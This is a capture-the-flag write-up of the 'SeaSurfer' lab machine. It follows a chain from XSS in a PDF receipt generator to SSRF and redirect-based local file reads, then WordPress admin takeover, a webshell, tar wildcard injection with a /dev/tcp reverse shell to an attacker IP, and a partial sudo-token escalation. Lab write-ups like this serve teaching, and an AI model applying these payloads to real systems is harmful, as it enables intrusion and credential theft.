## TL;DR


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                   
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)                             
| ssh-hostkey:                                                                                                                
|   3072 03:1c:bd:1e:c5:08:95:4b:0c:89:43:d1:de:1c:77:0d (RSA)                                                                
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDZh+WGjNnUiGGoLcBQZeujbewui0yBp4Q+XX+e3c7fZaOwRiRBpX7WV+dmbs9n7hU169HT8K7gPnA+k9CFbSIA
+LVM9idQXcefpKcdHxB2UCneqhV68dCdpJYd4dM7FgiDAtXRTzbfDnIhl6sQh8+2r08bbyiDhmpFYQTnQbH8snHc+b/el4oIO8BWFg/OraZdqBzMFXygnIab++aCtJ
rvhc50CpOqcepDFlBHgMMv77EQ/GEax2QJG64dj8Wpemenp8P5v0/9HFJlZh4VPDeMWnhtr+sPdbCCnQ4x1SvNIHwUqN6sKyypbP+J3Nx++Se5ccdavYKdvkkfSu5c
onbsf6n5eZ6E+vzDkEntu23aZpoqzSUyFf/E2g0UYH36IMGyxlHhNCuSHjELEXWjs/Y9bbIJOtlsQQUf1oR9/MS2Q/ijCLU3vBMRPnjY5Jz7A7PpoTiIViACkDvHjg
co87OQvKE7ICCgDxJcyBKSaUSDZEUVBwio9Y7aM0rGRoovgRs=                                                                            
|   256 32:f6:a2:a3:ba:f1:bb:59:cb:ff:e8:51:ff:69:c3:93 (ECDSA) 
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEWntEwFryaKJCPM5D9fvBt3QZKJhGyPexPDrVn8Pe4DFbEGXjK2zmJodhgUrfdlYKEnVAlws6Pm+QB2CnoZjhI=
|   256 37:f0:5a:36:27:0a:57:61:96:42:cb:a0:52:84:8d:51 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJnoVwFQPnVFgfYD/41wr9ZmGKk2xAvPFpR8M4dJkECX
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 3C7EB80E10B984F4C265DB2AB1197E69
|_http-generator: WordPress 5.9.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `seasurfer.thm` to my `/etc/hosts`

### XSS to LFI on internal service of PDF generation

When I access the website, I detect `wordpress` based site.



We can see this message.

Anyway, I executed the fuzzing on the website using `big.txt`:
```bash
ffuf -u 'http://seasurfer.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/big.txt -fc 403 -v
```

I found the endpoint `adminer`


After googling, I realized this is database management tool plugin.

> Adminer for WordPress
is a lightweight, open-source database management tool available as a plugin that allows users to manage MySQL, MariaDB, and other databases directly from the WordPress dashboard. It serves as a faster, more streamlined alternative to phpMyAdmin, enabling tasks like editing tables, running SQL queries, and importing/exporting data. 



It might be useful later.

Now, for sub domain enumeration:
```bash
┌──(agonen㉿kali)-[~/thm/SeaSurfer]
└─$ gobuster vhost -u 'http://seasurfer.thm/' --ad -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --xs 302
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://seasurfer.thm/
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
internal.seasurfer.thm Status: 200 [Size: 3072]
```

Let's add `internal.seasurfer.thm` to our `/etc/hosts`.



When I fill in all the data in the form, and click "Create receipt", It renders a pdf.



I suspect for `XSS Injection`, So I tried giving this payload in all forms: `<b>kobi</b>`:



You can see there is bold, so xss injection exists.
I took payload for loading `evil.js` via `SSRF`, which I controls:
```js
<script src="http://192.168.138.59:8081/evil.js"></script>
```



The textbox looks strange because I changed it from `input` to `textarea`. Now, we can control the `evil.js` how we wants to.



I tried to achieve `LFI` using the payloads shown in [https://hacktricks.alquymia.com.br/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.html](https://hacktricks.alquymia.com.br/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.html) but none of them worked.

Then, I opened the console and saw the version of the pdf generator is `wkhtmltopdf 0.12.5`



The `LFI` not working (for now), and we know `SSRF` does working. I found this issue on github [https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570), which says that using 302 redirect, he achieved `LFI`.
Let's try this, I'll setup a python server, using this code:
```py
from http.server import BaseHTTPRequestHandler, HTTPServer

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        target = self.path.lstrip("/?url=")
        self.send_response(302)
        self.send_header("Location", target)
        self.end_headers()

        print(f"Redirecting to: {target}")

HTTPServer(("0.0.0.0", 8081), Handler).serve_forever()
```

Now, we can execute this server, and then send payloads to `http://192.168.138.59:8081/?url=blabla` with whatever we wants.
So, First I want to check for `/etc/passwd`, using this script:
```html
<iframe height="2000" width="800" src=http://192.168.138.59:8081/?url=file:///etc/passwd></iframe>;
```

We creates iframe with sizes, that will hold `file:///etc/passwd`.


we got our `LFI`.

### LFI to find credentials for mysql login and login to wordpress to and then RCE  

I want to get `wp-config.php`, which is usually located at `/var/www/wordpress/wp-config.php`:
```bash
<iframe height="2000" width="800" src=http://192.168.138.59:8081/?url=file:///var/www/wordpress/wp-config.php></iframe>;
```

and we got back the credentials for the mysql service:
```bash
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );
/** Database username */
define( 'DB_USER', 'wordpressuser' );
/** Database password */
define( 'DB_PASSWORD', 'coolDataTablesMan' );
/** Database hostname */
define( 'DB_HOST', 'localhost' );
```



I logged in with the credentials



Inside `wp-users` we can find the hash of user `kyle`, which is `$P$BuCryp52DAdCRIcLrT9vrFNb0vPcyi/`:



The hash-identifier, tells us that this is md5 wordpress.



Okay, let's generate our new hash of the password `LOL` at the website [https://codebeautify.org/wordpress-password-hash-generator](https://codebeautify.org/wordpress-password-hash-generator) and replace the hash to be this.



The new hash will be `$P$BGX8Efm5iXaZYKIhYo0CSQZHGVxhly0`. Now we can login with the credentials `kyle:LOL`


After login, since we admin we can edit `404.php` and put there our webshell, in this case, the penelope payload. The location of the edit is at `http://seasurfer.thm/wp-admin/theme-editor.php?file=404.php&theme=twentyseventeen`.



Then we can access `http://seasurfer.thm/NOTFOUND` and grab our reverse shell



### Move to user kyle using cronjob and tar with *

Inside `/var/www/internal/maintenance` we can find the script `backup.sh`:
```bash
www-data@ip-10-67-183-122:/var/www/internal/maintenance$ cat backup.sh 
#!/bin/bash

# Brandon complained about losing _one_ receipt when we had 5 minutes of downtime, set this to run every minute now >:D
# Still need to come up with a better backup system, perhaps a cloud provider?

cd /var/www/internal/invoices
tar -zcf /home/kyle/backups/invoices.tgz *
```

It being executed every minute. In addition, we controls `/var/www/internal/invoices`.
```bash
www-data@ip-10-67-183-122:/var/www/internal$ ls -la /var/www/internal/invoices
total 1008
drwxrwxrwx 2 www-data www-data   4096 Jan 25 13:37 .
drwxrwxrwx 4 www-data www-data   4096 Apr 20  2022 ..
-rw-r--r-- 1 www-data www-data 152836 Apr 18  2022 18042022-SZEAfjkefOWOLzNG0nBF.pdf
-rw-r--r-- 1 www-data www-data 153339 Apr 18  2022 18042022-lUIvPaOVZIJQarZO7wHP.pdf
-rw-r--r-- 1 www-data www-data 153298 Apr 18  2022 18042022-x7nvKzdxwDPtGvg3hexH.pdf
-rw-r--r-- 1 www-data www-data 114621 Apr 19  2022 19042022-P8SghZ3qVclByyfsSm4c.pdf
-rw-r--r-- 1 www-data www-data 113999 Apr 19  2022 19042022-RuQkG8SZaxQc6vyw7BCv.pdf
-rw-r--r-- 1 www-data www-data  53676 Apr 22  2022 22042022-NNod4XQ0usiYmPZOVASm.pdf
-rw-r--r-- 1 www-data www-data  53435 Jan 25 13:36 25012026-2VS38VSXYMPbPSKK74XK.pdf
-rw-r--r-- 1 www-data www-data  77087 Jan 25 13:35 25012026-Sc5DuboGPRw0igZX5SWJ.pdf
-rw-r--r-- 1 www-data www-data  53275 Jan 25 13:36 25012026-anO9WqGDIuVrTRf4n7yi.pdf
-rw-r--r-- 1 www-data www-data  77101 Jan 25 13:37 25012026-yonUtTuh7pB1YPgTiGB7.pdf
```

So, because of teh using of `*`, we can use the technique from [https://gtfobins.org/gtfobins/tar/](https://gtfobins.org/gtfobins/tar/) and create the files of `--checkpoint`.
> tar -cf /dev/null /dev/null –checkpoint=1 –checkpoint-action=exec=/bin/sh

This is the code we just need to paste, it uses the payload from penelope.
```bash
cd /var/www/internal/invoices

touch './--checkpoint=1'
touch './--checkpoint-action=exec=sh rev_shell.sh'
echo -e 'sh -i >& /dev/tcp/192.168.138.59/1337 0>&1' > rev_shell.sh
chmod +x rev_shell.sh 
```

we got session as `kyle`.



Let's grab the user flag:
```bash
kyle@ip-10-67-183-122:~$ cat user.txt 
THM{SSRFING_TO_LFI_TO_RCE}
```

### Privilege Escalation to Root

The idea here is to use the sudo token that already has been created by `kyle`, using this repo [https://github.com/nongiach/sudo_inject/](https://github.com/nongiach/sudo_inject/).

However, we come over a problem, that `/proc` isn't mounted, so we can't view the processes. Same for accessing the socket at `/tmp/ssh-oHRIrbq9tr9G`.

